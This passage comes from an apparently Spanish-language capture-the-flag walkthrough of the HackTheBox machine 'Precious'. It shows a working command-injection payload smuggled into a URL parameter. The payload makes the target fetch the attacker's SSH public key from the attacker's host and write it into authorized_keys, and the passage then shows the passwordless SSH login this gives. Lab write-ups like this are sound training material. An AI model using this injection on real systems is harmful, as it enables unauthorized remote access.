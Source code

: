 ```bash
❯ sudo python3 -m http.server 80
[sudo] password for blank: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Ahora mandemos nuestra consulta a la maquina victima
```bash
❯ curl -s http://precious.htb/ --data "url=http://example.com/\$(curl\$IFS'10.10.14.110/id_rsa.pub'\$IFS-o\$IFS'/home/ruby/.ssh/authorized_keys')"
```
Recibimos la peticion
```bash
❯ sudo python3 -m http.server 80
[sudo] password for blank: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.189 - - [09/Feb/2023 16:56:28] "GET /id_rsa.pub HTTP/1.1" 200 -
```
Ahora si nos intentamos conectar como este usuario a la maquina victima no deberia pedirnos contraseña
```bash
❯ ssh ruby@10.10.11.189
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
-bash-5.1$ 
```
Y Tenemos acceso pero esto es una via no intencionada ahora les mostrare la via intensionada de esta maquina

## Explotacion

Creemos un archivo index.html y metasmos cualquier contenido en el, y montemos un servidor con python
```bash
❯ sudo python3 -m http.server 80
```
Enviemos la consulta e interceptemosla con burpsuite y veamos que pasa cuando  se genera el pdf Correctamente
![](/assets/img/precious/exp.png)
